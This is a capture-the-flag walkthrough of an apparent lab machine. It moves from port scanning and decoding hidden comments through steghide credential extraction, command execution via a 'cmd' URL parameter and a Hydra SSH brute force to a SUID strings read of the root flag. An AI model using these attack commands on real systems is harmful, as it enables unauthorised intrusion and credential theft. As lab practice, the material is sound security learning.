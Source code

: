 ## Target IP: `10.10.183.26`

---

### Local Environment Setup

```bash
export IP=10.10.183.26
export LIP=10.6.24.56
```

---

### Reconnaissance

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
nikto -h http://$IP
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php
```

**Open Ports:**

| Port | Service |
| --- | --- |
| 22 | HTTP (Apache 2.4.10) |
| 80 | SSH (OpenSSH 6.7p1 Debian 5) |

Flipped the script. Web server on port 22 and SSH on port 80. Firefox lost its mind. Had to go into `about:config` and create a string for `network.security.ports.banned.override`, adding `22`. 

---

### Web Enumeration

- Site is for a toymaker named **Jack**, likely a username.
- Source code of homepage shows:

```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```

- Base64 decode:

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [REDACTED]
```

So now we’ve got two usernames (`jack`, `johny` maybe) and a password: `[REDACTED]`.

Tried it on `/recovery.php`, nothing useful. Checked source code of that page and saw another encoded string:

```html
<!-- GQ2T...long base32 string... -->
```

- Decoded it: **Base32 → Hex → ROT13** (this was annoying). (Looking at this from the future and checking the writeup, if we had done OSINT on Johny Graves we would have found a post about encoding in that order. Keep in mind to dig deeper for next time)
- Final message:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- Link redirects to **Stegosauria** Wikipedia page, which is an obvious steganography clue.

---

### Stego and Image Enumeration

- Gobuster reveals: `http://$IP:22/assets`
- Directory has 3 images:
    - `stego.jpg` (dinosaur)
    - `header.jpg`
    - `jackinthebox.jpg`

**Tried stego.jpg:**

```bash
steghide extract -sf stego.jpg
# Used password: [REDACTED]
```

- Extracted `creds.txt`: “you're on the right path, but wrong image!”

**Tried header.jpg:**

```bash
steghide extract -sf header.jpg
# Same password
```

- Extracted `cms.creds`:

```
Username: jackinthebox
Password: [REDACTED]
```

---

### RCE via Web Interface

- Logged into CMS using creds above.
- Page output said:

```
GET me a 'cmd' and I'll run it for you Future-Jack.
```

**Command Injection (RCE):**

This works via query string injection:

```bash
curl "http://$IP:22/index.php?cmd=whoami"
```

- Output: `www-data`
- Full shell not needed. Just inject via `cmd` parameter.

Confirmed command execution with:

```bash
curl "http://$IP:22/index.php?cmd=ls -la /home"
```

Output showed:

- `/home/jack` (owner: jack)
- `/home/jacks_password_list`

---

### SSH Brute Force

- Retrieved `/home/jacks_password_list` using:

```bash
curl "http://$IP:22/index.php?cmd=cat /home/jacks_password_list"
```

- Extracted all the passwords (used page source to get full list).
- Verified username from `/etc/passwd` — it's `jack`.

**Hydra Brute Force:**

```bash
hydra -l jack -P jack_password_list.txt -s 80 ssh://$IP
```

- Found password: `[REDACTED]`

---

### SSH Access and User Flag

```bash
ssh -p 80 jack@10.10.183.26
```

- Inside `/home/jack`: found `user.jpg`
- Downloaded:

```bash
scp -P 80 jack@10.10.183.26:/home/jack/user.jpg .
```

- Image displayed flag:

```
[REDACTED]
```

---

### Privilege Escalation

- No sudo access for jack.
- Kernel exploits failed — no sudo rights to execute anything elevated.

**Checked for SUID binaries:**

```bash
find / -perm -u=s -type f 2>/dev/null
```

Found: `/usr/bin/strings` has SUID bit set (runs as root).

```bash
/usr/bin/strings /root/root.txt
```

- Output:
    
    `[REDACTED]`
